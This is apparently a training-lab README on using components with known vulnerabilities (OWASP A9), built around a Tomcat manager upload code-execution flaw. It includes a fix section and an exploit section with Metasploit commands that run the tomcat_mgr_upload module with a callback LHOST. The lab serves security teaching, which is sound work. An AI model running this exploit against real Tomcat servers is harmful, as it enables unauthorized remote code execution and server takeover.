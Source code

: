 ### Description

Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

refers : https://www.owasp.org/index.php/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities


### Setting env

```console

$ bash run.sh

```
### Issue 

Tomcat is vulnerable for manager authenticated upload code execution

### Exploit 

```console

$ msfconsole -r exploit.rc

msf5 exploit(multi/http/tomcat_mgr_upload) >  set LHOST 192.168.255.1

msf5 exploit(multi/http/tomcat_mgr_upload) >  run

```

refers : https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload

### Fix 

Don't use default passwords and Upgrade tomcat with new version
